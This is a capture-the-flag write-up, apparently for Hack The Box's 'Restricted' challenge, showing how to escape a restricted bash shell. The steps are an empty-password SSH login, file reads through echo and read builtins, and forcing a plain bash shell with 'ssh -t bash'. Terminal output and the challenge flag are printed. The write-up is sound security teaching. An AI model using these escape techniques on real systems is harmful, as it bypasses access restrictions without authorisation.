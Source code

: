 # Restricted
## Descirption
You 're still trying to collect information for your research on the alien relic. Scientists contained the memories of ancient egyptian mummies into small chips, where they could store and replay them at will. Many of these mummies were part of the battle against the aliens and you suspect their memories may reveal hints to the location of the relic and the underground vessels. You managed to get your hands on one of these chips but after you connected to it, any attempt to access its internal data proved futile. The software containing all these memories seems to be running on a restricted environment which limits your access. Can you find a way to escape the restricted environment?

### Difficulty: easy
---
By exploring the provided sshd_config file, we can see for the user restricted we are permitted empty passwords. And so, our entry into the system is through ssh as the user restricted:
```
$ ssh restricted@167.99.86.8 -p 32608
Linux ng-restricted-rtgbl-c6f644c76-t5z7n 5.18.0-0.deb11.4-amd64 #1 SMP PREEMPT_DYNAMIC Debian 5.18.16-1~bpo11+1 (2022-08-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Mar 23 23:40:20 2023 from 167.99.86.8
restricted@ng-restricted-rtgbl-c6f644c76-t5z7n:~$
```
Upon entry, we can check a few commands and see extremely limited options. We are unable to do traditional navigation commands such as `ls` or `cd`. However, we do have access to other powerful bash builtins such as `echo` and `read`. We can use `echo` to browse directories in a similar manner to `ls`:
```
restricted@ng-restricted-rtgbl-c6f644c76-t5z7n:~$ echo .*
. .. .bash_history .bash_logout .bash_profile .bashrc .bin .profile
```

In our current directory, there is nothing that looks like a flag. Checking elsewhere:
```
restricted@ng-restricted-rtgbl-c6f644c76-t5z7n:~$ echo /*
/bin /boot /dev /etc /flag_8dpsy /home /lib /lib64 /media /memories.dump /mnt /opt /proc /root /run /sbin /srv /sys /tmp /usr /var
```

`flag_8dpsy` looks like a potential candidate. To view, we can leverage `echo` and `read` together:

```
restricted@ng-restricted-rtgbl-c6f644c76-t5z7n:~$ read IFR < /flag_8dpsy; echo $IFR
HTB{r35tr1ct10n5_4r3_p0w3r1355}
```

---
Alternative Method, selecting `bash` as ssh terminal.

User restricted has its default terminal set to rbash, the restricted terminal we previously worked in. However, we can just as easily pick our own terminal agent at ssh launch:

```
$ ssh restricted@167.99.86.8 -p 32608 -t bash
restricted@ng-restricted-rtgbl-c6f644c76-t5z7n:~$ whoami
restricted
restricted@ng-restricted-rtgbl-c6f644c76-t5z7n:~$ cat /flag_8dpsy 
HTB{r35tr1ct10n5_4r3_p0w3r1355}
```
`HTB{r35tr1ct10n5_4r3_p0w3r1355}`